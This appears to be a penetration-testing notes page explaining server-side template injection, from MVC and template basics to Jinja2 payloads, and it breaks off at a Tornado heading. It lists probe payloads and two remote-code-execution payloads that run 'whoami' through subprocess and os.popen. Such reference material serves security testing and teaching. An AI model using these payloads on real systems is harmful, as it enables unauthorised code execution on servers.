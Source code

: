 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">For Code Execution:</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

